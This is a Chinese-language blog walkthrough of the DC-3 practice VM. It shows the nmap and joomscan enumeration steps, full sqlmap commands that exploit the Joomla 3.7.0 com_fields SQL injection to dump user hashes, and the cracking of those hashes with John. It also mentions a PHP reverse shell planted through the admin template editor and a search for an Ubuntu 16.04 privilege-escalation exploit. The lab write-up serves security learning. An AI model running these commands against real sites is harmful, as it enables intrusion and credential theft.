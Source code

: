 ```yaml
---
title: DC-3
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 靶机
comments: false
date: 2021-02-15 13:51:29
tags: 渗透
keywords:
description:
photos: \img\article\19.png
---
```


# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.143

```

发现80端口是打开的,访问一下

![image-20210215140651005](DC-3/image-20210215140651005.png)

用的Joomla模板

## cms扫描

使用**joomscan扫描工具**扫描Joomla相关配置内容、坚持已知漏洞等等

扫描后得知Joomla版本3.7.0，管理员登录页面，及一些可以访问的网站目录

```
cd joomscan

perl joomscan.pl -u 
```

发现版本为3.7.0

![image-20210215143019506](DC-3/image-20210215143019506.png)

 扫描出登入界面 :                                                

[+] admin finder                                                               

[++] Admin page : http://192.168.182.143/administrator/

# 漏洞探测

```
// nmap --script=vuln 192.168.182.143

扫描得出CMS版本3.7.0
存在数据库注入漏洞以及漏洞编号
```

![image-20210215145524288](DC-3/image-20210215145524288.png)



使用**searchsploit工具**查找Joomla 3.7.0 版本存在的漏洞，也可以发现一个sql注入漏洞

```
searchsploit Joomla 3.7.0
```

![image-20210215145608638](DC-3/image-20210215145608638.png)

```
cp /usr/share/exploitdb/exploits/php/webapps/42033.txt  jommla-370-sqli.txt
cat Joomla-370-sqli.txt
```

查看漏洞的利用方法

![image-20210215145742722](DC-3/image-20210215145742722.png)

# 漏洞利用

## 数据库注入攻击

```
sqlmap -u "http://192.168.182.143/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![image-20210217164747313](DC-3/image-20210217164747313.png)

爆表名

```
sqlmap -u "http://192.168.182.143/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables

//探测表名
#_users
```

![image-20210217164835682](DC-3/image-20210217164835682.png)

爆列

![image-20210217165144706](DC-3/image-20210217165144706.png)

爆数据

![image-20210217165307425](DC-3/image-20210217165307425.png)

## John解密

```
// vim 1.txt
创建一个用于放散列密码的文档1.txt

// john --wordlist=rockyou.txt 1.txt
john解密

// sudo john 1.txt --show
得出密文：snoopy
```

![image-20210217170642749](DC-3/image-20210217170642749.png)

![image-20210217171034020](DC-3/image-20210217171034020.png)

成功登录后台

![image-20210217171109107](DC-3/image-20210217171109107.png)

# Getshell

在后台我们找到了可以修改的php代码,反弹shell

![image-20210217171702574](DC-3/image-20210217171702574.png)

![image-20210217173814269](DC-3/image-20210217173814269.png)

![image-20210217173834969](DC-3/image-20210217173834969.png)

成功拿到shell

# 提权

信息搜集

```
//uname -a
//lsb_release -a

查看系统信息，发现Ubuntu版本16.04
```

![image-20210217174149423](DC-3/image-20210217174149423.png)

```
转到kali查找漏洞

//searchsploit Ubuntu 16.04
// searchsploit 39772.txt -p
//cp /usr/share/exploitdb/exploits/linux/local/39772.txt 39772.txt
//cat 39772.txt 

发现方法
Exploit-DB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

![image-20210217174710846](DC-3/image-20210217174710846.png)
发现提权漏洞

因为给出的地址无法连接,也没有在其他地方找到exp,很遗憾就到此结束了





